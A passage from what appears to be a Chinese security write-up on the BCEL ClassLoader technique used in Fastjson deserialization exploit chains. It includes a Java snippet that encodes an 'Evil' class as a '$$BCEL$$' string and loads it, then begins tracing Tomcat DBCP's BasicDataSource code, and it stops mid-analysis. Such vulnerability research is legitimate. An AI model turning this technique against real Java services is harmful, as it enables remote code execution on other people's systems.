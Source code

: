 当类名是以`$$BCEL$$` 开头，就会创建一个该类，并用definclass去调用

BCEL提供两个类，`Repository`和`Utility`

`Repository`用于将一个`Java Class`先转换成原生字节码，当然这里也可以直接使用javac命令来编译java文件生成字节码

`Utility`用于将原生的字节码转换成BCEL格式的字节码

其中`createClass` 方法中

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-27c5dc2631e7b2383f3f68f0bf5b1a330110162a.png)

存入到字节数组中时会调用`Utility`的`decode`方法，所以利用的时候要记得`encode`

```java
package org.example;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import java.io.IOException;

/**
 * @Author kilo、冰室/ki10Moc
 * @date 2022/11/7
 * @time 14:30
 * @blog http://ki10.top
 **/
public class FastJsonBcel {
    public static void main(String[] args) throws IOException, ClassNotFoundException, InstantiationException, IllegalAccessException {
        JavaClass javaClass = Repository.lookupClass(Evil.class);
        String encode = Utility.encode(javaClass.getBytes(), true);
        System.out.println(encode);
        Class.forName("$$BCEL$$" + encode, true, new ClassLoader());
        //        new ClassLoader().loadClass("$$BCEL$$" + encode).newInstance();
    }
}
```

那么下面就来看这里是怎么利用起来的

这次我们尝试以漏洞发现者的身份来看这条链子

首先是`org.apache.tomcat.dbcp.dbcp2.BasicDataSource#createConnectionFactory()`

```java
protected ConnectionFactory createConnectionFactory() throws SQLException {
        // Load the JDBC driver class
        Driver driverToUse = this.driver;

        if (driverToUse == null) {
            Class<?> driverFromCCL = null;
            if (driverClassName != null) {
                try {
                    try {
                        if (driverClassLoader == null) {
                            driverFromCCL = Class.forName(driverClassName);
                        } else {
                            driverFromCCL = Class.forName(driverClassName, true, driverClassLoader);
                        }
                    } catch (final ClassNotFoundException cnfe) {
                        driverFromCCL = Thread.currentThread().getContextClassLoader().loadClass(driverClassName);
                    }
                } catch (final Exception t) {
```